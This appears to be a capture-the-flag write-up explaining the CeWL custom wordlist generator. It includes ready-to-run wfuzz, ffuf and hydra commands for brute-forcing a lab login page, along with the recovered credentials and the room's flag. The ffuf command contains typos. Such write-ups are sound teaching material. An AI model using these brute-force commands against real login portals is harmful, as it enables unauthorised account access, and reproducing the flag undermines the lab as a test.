![Alt text](image.png)

# Baby, it's CeWLd outside
#Brute-Forcing

After a thorough investigation, the security team discovered that a notorious individual named McGreedy, known for his dealings in the dark web, had sold the company's credentials. This sale paved the way for a random hacker from the dark web to exploit the portal. The logs point to a brute-force attack. Normally, brute-forcing takes a long time. But in this case, the hacker gained access with only a few tries. It seems that the attacker had a customised wordlist. Perhaps they used a custom wordlist generator like CeWL. Let's try to test it out ourselves!

## CeWL

CeWL (pronounced "cool") is a custom word list generator tool that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details. This capability makes CeWL especially valuable to penetration testers aiming to brute-force login pages or uncover hidden directories using organisation-specific terminology.

CeWL is a wordlist generator that is unique compared to other tools available. While many tools rely on pre-defined lists or common dictionary attacks, CeWL creates custom wordlists based on web page content. Here's why CeWL stands out:

1. `Target-specific wordlists:` CeWL crafts wordlists specifically from the content of a targeted website. This means that the generated list is inherently tailored to the vocabulary and terminology used on that site. Such custom lists can increase the efficiency of brute-forcing tasks.
2. `Depth of search:` CeWL can spider a website to a specified depth, thereby extracting words from not just one page but also from linked pages up to the set depth.
3. `Customisable outputs:` CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This level of customisation can be advantageous for targeting specific types of credentials or vulnerabilities.
4. `Built-in features:`While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
5. `Efficiency:` Given its customisability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
6. `Integration with other tools:` Being command-line based, CeWL can be integrated seamlessly into automated workflows, and its outputs can be directly fed into other cyber security tools.
7. `Actively maintained:` CeWL is actively maintained and updated. This means it stays relevant and compatible with contemporary security needs and challenges.

Customising Commands
- -d: spidering depth 
- -m and -x: minimum and maximum word length
- -a: handling Authentication
- --extension: handling custom extensions
- --offsite: follow external links

## Brute-force the login portal using **_wfuzz_**
```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.132.80/login.php -d "username=FUZZ&password=FUZ2Z"
```

In the command above:<br>
-z file,usernames.txt loads the usernames list.<br>
-z file,passwords.txt uses the password list generated by CeWL.<br>
--hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.<br>
-u specifies the target URL.<br>
-d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.<br>

```
UserID: isaias
Password: Happiness
Flag: THM{m3rrY4nt4rct1crAft$}
```

## Other Methods:

### fuff
```
ffuf -s -w usernames.txt:USER -w passwords.txt:PASS -u http://10.10.106.165/loqin.php -d "username=USER&password-PASS" 
-H "Content-Type: application/x-www-form-urlencoded" -fr "Please enter the correct credentials"
```

### hydra
```
hydra -L usernames.txt -P passwords.txt http-post-form://10.10.106.165/login.php:"username=^USER^&password=^PASS^"
:"Please enter the correct credentials"
```

### Can also use **_Turbo Intruder_**

### Conclusion
AntarctiCrafts' unexpected breach highlighted the power of specialised brute-force attacks. The swift and successful unauthorised access suggests the attacker likely employed a unique, context-specific wordlist, possibly curated using tools like CeWL. This tool can scan a company's public content to create a wordlist enriched with unique jargon and terminologies.



